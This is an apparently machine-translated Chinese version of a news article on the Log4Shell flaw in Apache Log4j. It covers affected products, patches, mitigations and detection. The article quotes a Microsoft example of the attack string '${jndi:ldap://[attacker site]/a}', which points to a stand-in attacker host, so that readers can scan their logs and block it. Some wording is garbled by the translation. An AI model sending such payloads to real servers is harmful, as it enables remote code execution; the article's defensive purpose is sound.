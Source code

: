 # Log4Shell:我们有大麻烦了

> 原文：<https://thenewstack.io/log4shell-we-are-in-so-much-trouble/>

![](img/12cbbc27cd63ad10234d03a126c40506.png)开源 Java 日志库 [Apache Log4j](https://logging.apache.org/log4j/) 用的很多。当我说很多时，我的意思是它在数百个应用中使用。而且，这些不只是任何旧程序，它们包括<深呼吸>阿帕奇项目，如德鲁伊、杜博、弗林克、Flume、Hadoop、卡夫卡、Solr、Spark 和 Struts 苹果 iCloud[众多思科计划](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-apache-log4j-qRuKNEbd)；弹性 LogStashGrayLog2《我的世界》客户端和服务器；Neo4J、Steam、Twitter，以及 Horizon、vCenter、vRealize 和 Tanzu 等 [VMware](https://tanzu.vmware.com?utm_content=inline-mention) 程序。就这样一直持续下去。

我肯定外面有更多受欢迎的图书馆。我只是一时想不出任何答案。

### 检查您的应用程序

要想知道你的应用程序中哪些是易受攻击的——而不是是否——请查看 SwitHak 的、 [Royce Williams 的](https://www.techsolvency.com/story-so-far/cve-2021-44228-log4j-log4shell/)和[荷兰国家网络安全中心(NCSC)的列表](https://github.com/NCSC-NL/log4shell/tree/main/software)。

零日漏洞，[CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)——也称为 log 4 shell——既容易被利用，又可以被用来完全控制易受攻击的服务器。可以通过这种零日攻击进行的攻击系列被称为 [Log4sholdShell](https://www.lunasec.io/docs/blog/log4j-zero-day/) 。

### 越糟越好

那么 Log4Shell 到底有多差呢？越糟越好。根据[国家漏洞数据库(NVD)](https://nvd.nist.gov/) ，它被评为 [10.0 CVSSv3](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) ，按照我 0.1 到 10 的评分标准，这是最差的。如果被成功利用，攻击者可以通过远程代码执行(RCE)攻击来攻击您的服务器。考虑到它是如此容易被利用，甚至当你正在读这篇文章的时候，你很有可能已经被攻击了。

作为安全公司 [Nextron Systems 的](https://www.nextron-systems.com/)研究负责人， [Florian Roth](https://www.linkedin.com/in/floroth/) 在推特上写道，“ [#](https://twitter.com/hashtag/Log4Shell?src=hashtag_click) [Log4Shell](https://twitter.com/hashtag/Log4Shell?src=hashtag_click) 漏洞不仅仅是 RCE 0day。这是一个在各种软件产品中造成成百上千天的漏洞。这是一枚 0day 集束炸弹。”

### 使用补丁！

是啊，这会很有趣的。

在 2.0 和 2.14.1 版本之间使用 Apache Log4j 的任何系统或服务都容易受到攻击。现在有一个固定版本出来了: [Apache Log4j 2.15.0](https://logging.apache.org/log4j/2.x/download.html) 。你应该尽快更新这个*(编者注:这个更新结果是不完整的，[查看这个帖子](https://thenewstack.io/another-day-another-log4j-vulnerability/)了解更新的细节)*。

你还在等什么？说真的，现在就修补！

回来了？打补丁？很好。

那是什么？你不能因为你的程序至关重要就让它停机？如果它关闭了你的服务器或者一个[攻击者用它来开始玩毁灭](https://twitter.com/gegy1000/status/1469714451716882434)而不是运行你的服务，那将会变得更加严重。幸运的是，[亚马逊网络服务](https://aws.amazon.com/?utm_content=inline-mention) (AWS)开发者已经创建了一个修补程序， [Log4jHotPatch](https://github.com/corretto/hotpatch-for-apache-log4j2) ，它可以在[亚马逊 Corretto 8](https://docs.aws.amazon.com/corretto/latest/corretto-8-ug/what-is-corretto-8.html) 上工作，这是它的 OpenJDK 8 实现。有了代码，把它移植到其他平台应该不会太难。

### 发现问题

但是你还没有完成。您可以看到 Log4j 在如此多的程序中被使用和调用，即使您在系统中修补了它，它也很可能隐藏在其他应用程序中。只需要一个漏洞，一个易受攻击的程序，你的服务器就会瘫痪。

正如安全副总裁 Josh Bressers 、 [Anchore](http://www.anchore.com/) 解释的那样，“log4j 漏洞带来的挑战之一实际上是找到它。Java 应用程序和依赖项通常采用某种打包格式，这使得分发和运行变得非常容易，但却很难弄清楚这些软件包的内容。”

你看，Bressers 继续说，“当在 Java 中工作时，依赖关系被编目为 Java 档案文件，通常称为 JAR 文件。这些包可以作为 Java 库使用，但是这里的问题是 JAR 文件可能开始看起来像俄罗斯的嵌套玩偶。一个 JAR 文件可以包含 JAR 文件，而这些 JAR 文件也包含 JAR 文件。它基本上是一路向下的 JAR 文件。”

“尽管如此，所有的希望并没有失去！”结束了布雷泽斯。您可以使用两个 Anchore 开源项目 [Syft](https://github.com/anchore/syft) 和 [Grype](https://github.com/anchore/grype) ，来检测和识别 log4j，即使它被埋在第三圈 JAR 文件中。

### 它是如何工作的

也就是说，Log4Shell 是这样工作的。

Apache log4j 库使得开发人员可以非常容易地记录应用程序中的各种数据。用户还可以提交数据，这些数据将被记录。log4j 不做的是整理数据。

如果输入包含特殊字符，那么将会调用 Java 方法 lookup。这支持几种查找，比如 [Java 命名和目录接口(JNDI)](https://docs.oracle.com/javase/jndi/tutorial/getStarted/overview/index.html) 查找、JVM 输入参数查找(JMX)和 Web 查找。JNDI 查找允许检索变量，并支持远程查找，如轻量级目录访问协议(LDAP)和 Java 远程方法调用(RMI)。一旦被调用，这些就会在本地 log4j 服务器中执行用户定义的远程 Java 类，然后糟糕的事情就会发生。例如受害者服务器上的 RCE。

### 好消息是:修复工作已经开始

好消息是，这个零日一旦被发现，很快就被修复了。耶阿帕奇！坏消息是，在大多数人知道这个安全漏洞之前，它就已经被攻击了。

Cloudflare 首席执行官 [Matthew Prince](https://www.linkedin.com/in/mprince/) 在推特上写道，“[我们迄今为止发现的#Log4J 漏洞利用](https://twitter.com/eastdakota/status/1469800951351427073)的最早证据是 2021-12-01 04:36:50 UTC。这表明它在公开披露前至少在野外存在了 9 天。然而，在公开披露之前，不要看到大规模剥削的证据。”

思科 Talos 补充道，其安全研究人员已经发现了“12 月 2 日发现的名为 CVE-2021-44228 的漏洞”因此，塔罗斯建议，你应该寻找“妥协的迹象应该扩展他们的搜索，至少要追溯到那个时候。”

### 你应该做什么

好主意。这是你现在应该做的。

首先，让我重复我自己，修补它了。

美国[网络安全和基础设施安全局(CISA)](https://www.cisa.gov/) 局长 [Jen Easterly](https://www.linkedin.com/in/jen-easterly-225380123/) 也强烈建议你:

1.  列举所有安装了 log4j 的面向外部的设备。
2.  确保您的安全运营中心正在对属于上述类别的设备上的每一个警报采取行动。
3.  安装带有自动更新规则的 web 应用程序防火墙(WAF ),以便您的安全运营中心能够集中处理较少的警报。

祝你最后一次好运。在接下来的几周里，IT 部门的每个人都会像洪水中的海狸一样忙碌。Log4j 漏洞已经被用于 Muhstik 和 Mirai 未来组合僵尸网络来攻击易受攻击的服务器。

### 采取严厉措施

如果你想采取更激烈的方法，你可以采取[帕洛阿尔托网络](https://www.paloaltonetworks.com/cloud-security?utm_content=inline-mention)‘Unit 42 反 Log4Shell 防御策略:

*   在带有防火墙的服务器上禁用可疑的出站流量，如 LDAP 和 RMI。
*   禁用 JNDI 查找。
    *   设置 log4j2.formatMsgNoLookups=true
    *   删除 log4j-core 中的 JndiLookup 文件，并重新启动服务。
*   禁用 JNDI
    *   设置 spring.jndi.ignore=true

当然，这些方法的问题是您可能会在这个过程中破坏您的应用程序。有时候治疗可能比疾病更糟糕。

如果出于某种原因，您被绑定到特定版本的 Log4j， [Red Hat](https://www.openshift.com/try?utm_content=inline-mention) 有一些安全建议。这些是:

–在> =2.10 的版本中，将系统属性 log4j2.formatMsgNoLookups 或环境变量 LOG4J_FORMAT_MSG_NO_LOOKUPS 设置为 true。

–对于版本> =2.7 和<=2.14.1, all PatternLayout patterns can be modified to specify the message converter as %m{nolookups} instead of just %m.

– For releases > =2.0-beta9 和<=2.10.0, remove the JndiLookup class from the classpath. For example:

```
zip  -q  -d  log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class

```

通过与你的供应商沟通，尽快安装并运行他们的补丁程序，你可以让你的生活变得更轻松。您还应该研究可以解决 Log4j 问题的安全公司产品。这些目前包括来自 [TideLift](https://blog.tidelift.com/tidelift-advisory-log4shell-critical-vulnerability-what-you-need-to-know-and-do) 、 [Sonatype](https://www.sonatype.com/products/vulnerability-scanner) 和 [NCCGroup](https://research.nccgroup.com/2021/12/12/log4shell-reconnaissance-and-post-exploitation-network-detection/) 的产品。

您还可以通过扫描自己的日志来寻找潜在的攻击。微软发现攻击可能包含如下字符串:

```
${jndi:ldap://[attacker site]/a}

```

这里的[攻击者正在对目标系统执行 HTTP reques](https://www.microsoft.com/security/blog/2021/12/11/guidance-for-preventing-detecting-and-hunting-for-cve-2021-44228-log4j-2-exploitation/) t，该系统使用 Log4j 2 生成一个日志，该日志利用 JNDI 对攻击者控制的站点执行请求。然后，该漏洞会导致被利用的进程到达站点并执行有效负载。在许多观察到的攻击中，攻击者拥有的参数是一个 DNS 日志记录系统，用于记录对站点的请求，以获取易受攻击系统的指纹。"

这些字符串可以通过几个组件来识别。它们通常包含“jndi”，指的是 Java 命名和目录接口。接下来，它带有一个协议名，如“ldap”、“ldaps”、“rmi”、“dns”、“iiop”或“http”，位于攻击者域之前。你应该设置你晶片来阻止这些串。

### 一代人以来最严重的安全问题

[Steve Povolny](https://www.linkedin.com/in/steve-povolny-595a776/) ， [McAfee Enterprise 和 FireEye](https://www.fireeye.com/company/press-releases/2021/combination-of-mcafee-enterprise-and-fireeye-complete.html) 的高级威胁研究负责人说 [Log4Shell“现在完全属于与 Shellshock](https://www.zdnet.com/article/log4j-update-experts-say-log4shell-exploits-will-persist-for-months-if-not-years/) 、Heartbleed 和 EternalBlue 相同的对话。”

我认为他错了。我觉得这样更糟糕。Log4Shell 可能是一代人中最糟糕的安全问题。正如 Bressers 在一篇博客文章中提到的，“将会有很多假阴性报告，其中一个[产品声称它不使用 log4j，但它确实使用了](https://opensourcesecurity.io/2021/12/12/log4j-is-hard-to-find-and-harder-to-fix/)，只有 log4j 被隐藏在依赖地雷的深处。…将会有几周或几个月看不到更新的产品。”

坚持住，伙计们。这将是一段漫长而艰难的旅程。

<svg xmlns:xlink="http://www.w3.org/1999/xlink" viewBox="0 0 68 31" version="1.1"><title>Group</title> <desc>Created with Sketch.</desc></svg>
